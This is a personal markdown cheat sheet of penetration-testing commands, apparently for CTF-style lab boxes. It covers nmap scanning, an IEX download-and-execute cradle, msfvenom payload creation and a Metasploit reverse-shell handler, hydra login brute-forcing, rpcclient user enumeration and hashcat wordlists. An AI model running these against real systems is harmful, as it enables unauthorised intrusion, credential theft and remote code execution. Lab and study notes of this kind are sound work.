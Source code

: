 # Random notes that I have not filed yet

## Standard nmap scan
`sudo nmap -sC -sV -oA nmap/(box name) (IP)`

## Make nice screenshots of access
Windows: `hostname; whoami; ipconfig`

Linux: `hostname; whoami; ip a`

## Setup a simple web server
`python -m SimpleHTTPServer`

## Download from Windows shell
`IEX(New-Object Net.WebClient).downloadString('http://(IP/HOSTNAME)')`

## Encoding file to remove bad characters, and copy to clipboard
`cat (filename) | iconv -t UTF-16LE | base64 -w 0 | xclip -selection clipboard`

Change `UTF-16LE` to `UTF-8` for Unix

## HTTP login pages
`hydra -C /usr/share/seclists/Passwords/Default-Credentials/(chosen file) -s (port) (IP) http-get (subdirectory)`

## MSFVenom
### List payloads
`msfvenom -l payloads`

### List formats
`msfvenom -l formats`

### Create payload
`msfvenom -p (payload) LHOST=(IP) LPORT=(port) -f (format) -o (output filename)`

## Setup handler
In Metasploit: 

`use exploit/multi/handler`

`set payload (selected payload)`

`set LHOST tun0`

`set LPORT (port)`

`exploit -j` to run in background

## Check sessions in Metasploit
`sessions -i 1`

## RPC 
### Access
`rpcclient -U '' (IP)`
### User dump
In RPC client, run `enumdomusers`
### More details
In RPC client, run `querdispinfo`

## Wordlists
### How to make nice wordlists
`hashcat --force --stdout -r /usr/share/hashcat/rules/best64.rule (original password list you have) > password.lst`

## Decompilers
### DNSpy
Recommended for .NET

## Windows shell
### `allinfo`
Windows version of `ls -lah`
### `type`
Windows version of `cat`

## OS typing by TTL
Windows has a default of a 128 TTL, Unix has 64?

## Finding web server subdirectories
`gobuster dir -u '(IP)' -x (format) -w /usr/share/wordlists/dirbuster/(chosen wordlist) -o (output file)`

## Reverse Shells
### Where can they be found?
Find most in `/opt/nishang/Shells/` on Kali

## Searchsploit
Path for Kali is `/usr/share/exploitdb/exploits/`
